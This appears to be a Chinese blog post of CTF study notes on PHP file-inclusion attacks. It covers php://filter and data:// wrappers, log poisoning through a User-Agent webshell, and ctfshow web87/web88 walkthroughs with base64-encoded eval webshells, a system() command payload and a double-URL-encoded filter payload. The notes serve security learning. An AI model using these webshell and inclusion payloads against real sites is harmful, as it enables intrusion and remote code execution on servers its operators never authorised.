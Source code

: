 ```yaml
---
layout: post
title: 文件包含小结
category: web安全（早就不搞）
date: 2023-8-17
---
```

远古笔记
<!-- more -->
# 文件包含

## 读取方式总结

### 直接读取

### 伪协议读取

这里我直接把写的其他地方的note拿过来

```php
php://filter/read=<1>/resource=<2>
// 此为一个数据过滤器，1处填写使用的过滤器，2中填写读取的文件。
// 例如，php://filter/read=convert.base64-encode/resource=flag.php
// 若直接包含一个php文件，可能会不显示
php://filter/write=<1>/resource=<2>
// 和上面当然是一样的，但写入的时候需要将read改为write。
data://text/plain, <内容>
//文件流，可以直接视为文件用file_get_contents等方式读取
//或者使用以下方式base64一下再读取：
data://text/plain;base64,<内容>
```

### 远程服务器包含

想想可不可以包含其他服务器的文件而不是本机？小概率事件

### 日志包含

这里写一下`apache`和`nginx`两种服务器的日志存放位置。

`nginx`日志:

```bash
/var/log/nginx/access.log
```

apache日志：

```bash
/usr/local/apache/logs/access_log
```

利用思路就是，先构造一个`User-Agent`为恶意代码的包，例如`User-Agent`为`<?php eval($_POST[1];);?>`，然后这样日志中就含有这个一句话木马。将这个日志文件包含进来即可。

### data://

`data://`是一个文件流，它可以直接看做文件的内容本身。

常见用法如下：（抄一下上面的

```php
data://text/plain, <内容>
//文件流，可以直接视为文件用file_get_contents等方式读取
//或者使用以下方式base64一下再读取：
data://text/plain;base64,<内容>
```

以ctfshow web88为例子，源码如下：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

`$file`是根据`GET`方式传递的变量，然后有一些正则，然后`include`这个变量的文件。

这里可以使用`data://`数据流，即我们直接包含我们自己构造的马。

先随便写个马，比如（但这里要注意，正则过滤`=`号，因此`base64`把末尾等号删除即可）

```php
<?php eval($_POST[1]); ?>
```

由于有过滤`php`和括号什么的，所以干脆我们将其`base64`一下。上面的一句马`base64`一下结果是：

```
PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==
```

那`payload`也很显然了，即：

```php
?file=data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg
//post:
1=system("cat fl0g.php");
```



### php://filter

用doc里面的话，`php://filter`是一种元封装器，设计用于数据流打开时的筛选过滤应用。

使用常见的情况可能是这样：(又抄了上面的

```php
php://filter/read=<1>/resource=<2>
// 此为一个数据过滤器，1处填写使用的过滤器，2中填写读取的文件。
```

`filter`的种类可以参见 [这里]([PHP: 可用过滤器列表 - Manual](https://www.php.net/manual/zh/filters.php)) 。

`filter`可以对文件流进行操作，即在即将读取/写入的操作进行之前，先将读取/写入的数据内容进行过滤器指定的操作。例如我们需要读取`flag.php`这个文件，而在读取之前，先将读取到的内容进行一下编码操作，我们就可以用`php://filter`进行数据过滤。这个编码操作就是过滤器指定的操作，`flag.php`就是即将读取的文件。

以ctfshow web87为例，讲一下`filter`的一些作用。

先看源码：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

首先明确一点，使用`GET`方式传入的文件名是完全可控的，原因是，在PHP中使用`GET`或者`POST`接收到的内容是都会先进行一次URL解码操作的。而在`file_put_contents`函数中又进行了一次URL解码操作，因此传入的`$file`需要进行两次URL编码，因此替换操作不会有任何影响，导致这里可控。

那么问题显而易见了，传入的`$content`当然是可控的，但前面有一个`die`，导致我们直接写入的任何php的操作没有作用。经过上面的描述，一个简易的解决方式是可以有的，即使用`php://filter`。在对`$file`文件进行写入操作之前，我们先使用一个数据过滤器对即将写入的数据进行一定处理。这里就有很多种过滤器可用了，我第一时间想到的是比较常用的`base64`编码，这里也可以用其他很多过滤器，例如编码方面还可以用`rot13`等，此处写一下`base64`的绕过方法。

众所周知，`base64`将任意`Ascii`字符转换为64个字符，即大小写字母、数字和一些特殊符号。对于即将编码的`Ascii`字符，都是8个字节，而`base64`会将他们映射到6个字节。因此若有三个字符（`3*8=24`字节）待转换，则`base64`将其映射为4个字符（同样是`4*6=24`字节）。对于传入的字符串不是3的倍数的情况，`base64`以字符`=`来进行填充到编码后的字符串。

那么在这个场景下，我们可以在将文件内容写入之前，进行一次`base64`的解码操作。`<?php die('大佬别秀了');?>`里面是有中文的，那应该算几个字节呢？经查阅后发现中文会按照不同的编码（当然同一个汉字就会有不同的二进制长度）有不同的算法。因此我们这里直接试了一下，发现在上面的死亡代码添加两个字符后，后面的字符串将是独立解密的。因此我们构造写入的内容为：

```php
content=11PD9waHAgZWNobyAyMjI7ZXZhbCgkX1BPU1RbMV0pOyA/Pg==
```

写入的文件名使用`filter`处理，即：

```php
?file=php://filter/write=convert.base64-decode/resource=1.php
```

经过两次URL编码，即：

```php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
```


